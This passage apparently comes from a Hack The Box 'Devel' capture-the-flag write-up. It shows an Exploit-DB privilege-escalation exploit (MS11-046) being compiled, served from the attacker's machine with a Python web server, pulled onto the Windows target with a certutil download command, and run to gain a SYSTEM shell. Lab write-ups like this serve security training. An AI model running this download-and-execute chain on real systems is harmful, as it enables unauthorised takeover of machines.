```
      URL: https://www.exploit-db.com/exploits/40564
     Path: /usr/share/exploitdb/exploits/windows_x86/local/40564.c
File Type: C source, ASCII text

Copied to: /root/htb/devel/40564.c

┌──(root㉿kali)-[~/htb/devel]
└─# i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32 
```

I then hosted the executable using a python webserver
```
┌──(root㉿kali)-[~/htb/devel]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

With everything in place the exploit was downloaded and when it executed a shell as `nt authority\system` was spawned. 
```
c:\Windows\System32>cd C:\

C:\>mkdir temp

C:\>cd temp

C:\temp>certutil.exe -urlcache -f http://10.10.14.6/MS11-046.exe MS11-046.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\temp>.\MS11-046.exe

c:\Windows\System32>whoami
nt authority\system
```
